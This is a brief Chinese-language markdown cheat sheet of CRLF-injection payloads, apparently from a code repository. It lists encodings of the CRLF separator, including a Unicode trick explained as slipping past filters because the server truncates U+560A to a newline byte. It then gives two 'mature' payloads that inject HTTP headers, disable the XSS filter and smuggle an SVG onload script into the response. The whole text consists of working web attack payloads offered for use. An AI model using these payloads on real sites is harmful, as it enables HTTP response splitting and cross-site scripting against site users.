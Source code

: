 # clrf分隔符
* %E5%98%8A%E5%98%8D ##比如说用户提交的是：%E5%98%8A，这个不包含换行符所以不会被拦截，服务器接收到后将其转成原始的unicode码：U+560A，最后取了0A，这时候就变成换行符了。
* %0A%0D

# clrf成熟的payload
* %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
* %0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e

